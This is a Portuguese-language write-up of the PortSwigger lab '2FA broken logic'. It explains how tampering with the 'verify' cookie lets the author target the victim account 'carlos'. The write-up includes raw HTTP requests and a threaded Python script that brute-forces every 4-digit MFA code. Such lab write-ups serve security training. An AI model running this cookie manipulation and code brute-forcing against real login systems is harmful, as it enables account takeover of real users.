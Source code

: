 ```yaml
---
title: 2FA Broken Logic
date: 2024-03-23 19:35:00 +0300
categories: [anotacoes, web application security, weblogic]
tags: [anotacoes, web application security, weblogic]     # TAG names should always be lowercase
---
```



## PortSwigger Lab
![weblogic2](/_site/assets/img/weblogic2.png)


## 2FA Broken Logic
- A autenticação de dois fatores deste laboratório é vulnerável devido à sua lógica falha. Para resolver o laboratório, precisamos acessar a página da conta do Carlos.
- credenciais: wiener/peter
- Nome de usuário da vítima:carlos
- Você também tem acesso ao servidor de e-mail para receber seu código de verificação 2FA.

**1** - Ao acessar o lab, com o Burp em execução, fiz login com a conta wiener e analisei o processo de verificação 2FA. Observamos que na requisição POST /login2 onde o paramatro verify é utilizado para determinar qual conta do usuário está sendo acessada.
```bash
POST /login HTTP/2
Host: example.web-security-academy.net
Cookie: verify=wiener; session=yoursession
Content-Length: 30
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://example.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://example.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7

username=wiener&password=peter
```

Após a analise, sai da conta wiener e enviei uma requisição GET /login2, alterando o parametro verify para carlos, dessa forma um código 2FA temporário foi gerado para o usuário carlos. 

```bash
GET /login2 HTTP/2
Host: example.web-security-academy.net
Cookie: verify=carlos; session=yoursession
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://example.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7
```
Em seguida fui até a página de login, digitei o usuário e senha do usuário wiener e coloquei um código inválido. Por fim enviei uma requisição POST /login, definindo o parametro verify=carlos e adicionando um payload ao parametro mfa-code que também foi encontrado no inicio da análise. Utilizando o Intruder no Burp Suite é possível fazer um brute-force para descobrir o código 2FA de 4 digitos porém esse processo pode ser muito lento se você não tem a versão profissional. Por isso fiz um script em Python que trabalha com ThreadPoolExecutor para enviar diversas requisições simultaneas, facilitando o processo de descoberta e evitando expirar a sessão do laboratório, além de identificar quando o código da resposta da solicitação for 302 e analisando o tamanho de cada resposta em bytes:
```python
import requests
import concurrent.futures

url = 'https://example.web-security-academy.net/login2'
headers = {
    'Host': 'example.web-security-academy.net',
    'Cookie': 'verify=carlos; session=yoursession',
    'Cache-Control': 'max-age=0',
    'Sec-Ch-Ua': '"Chromium";v="122", "Not(A:Brand";v="24", "Google Chrome";v="122"',
    'Sec-Ch-Ua-Mobile': '?0',
    'Sec-Ch-Ua-Platform': '"Windows"',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36',
    'Origin': 'https://example.web-security-academy.net',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'Sec-Fetch-Site': 'same-origin',
    'Sec-Fetch-Mode': 'navigate',
    'Sec-Fetch-User': '?1',
    'Sec-Fetch-Dest': 'document',
    'Referer': 'https://example.web-security-academy.net/login2',
    'Accept-Encoding': 'gzip, deflate, br',
    'Accept-Language': 'pt-PT,pt;q=0.9,en-US;q=0.8,en;q=0.7',
    'Connection': 'close'
}

def send_request(mfa_code):
    payload = {'mfa-code': f'{mfa_code:04d}'}
    response = requests.post(url, headers=headers, data=payload)
    if response.status_code == 302:
        print(f'Success! Code is: {mfa_code:04d}, Response size: {len(response.content)} bytes')
    else:
        print(f'Tried code {mfa_code:04d}, Status code: {response.status_code}, Response size: {len(response.content)} bytes')

# Define a função principal para execução concorrente
def main():
    # Usando ThreadPoolExecutor para criar várias threads
    with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
        # Enviar solicitações para códigos MFA de 9999 a 0000
        executor.map(send_request, range(9999, -1, -1))

if __name__ == "__main__":
    main()
```

Após a execução do script, descobrimos o valor do código 2FA e conseguimos completar o laboratório obtendo acesso a conta do Carlos.

![weblogic1](/_site/assets/img/weblogic1.png)


- Referências: https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic